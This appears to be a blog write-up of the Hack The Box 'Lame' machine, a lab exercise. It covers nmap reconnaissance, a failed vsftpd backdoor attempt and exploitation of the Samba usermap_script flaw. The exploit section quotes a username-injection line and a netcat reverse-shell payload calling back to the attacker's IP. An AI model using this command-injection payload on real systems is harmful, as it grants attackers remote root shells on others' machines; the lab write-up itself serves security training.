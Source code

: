 ```yaml
---
layout: post
title: Lame
image: "/assets/img/<IMG>"
tags: [OSCP, writeup, lame]
twitter_text: "test"
introduction: "test"
description: "Lame write-up"
---
```


![](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

![](/assets/imgs/lame/ftp_exploit_manually.PNG)

Then we connect to the bind shell on port 6200.

![](/assets/imgs/lame/ftp_nc.PNG)

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands. (https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

I want a reverse shell so my payload should look something like this :

```
./=`nohup nc -e /bin/bash 10.10.14.3 4444`
```

Let's try it !

Open a nc listener :

```bash
nc -lvp 4444
```

Then triggered the exploit.

![](/assets/imgs/lame/smb_exploit.PNG)

We have a connection back to our listener and we are "root", nice !

![](/assets/imgs/lame/smb_exploit_reverse_shell.PNG)

### Shell upgrade

Now that we have a shell, let's upgrade it :

![](/assets/imgs/lame/shell_upgrade.PNG)

And now go read the flags !

### User.txt

![](/assets/imgs/lame/user.PNG)

### Root.txt

![](/assets/imgs/lame/root.PNG)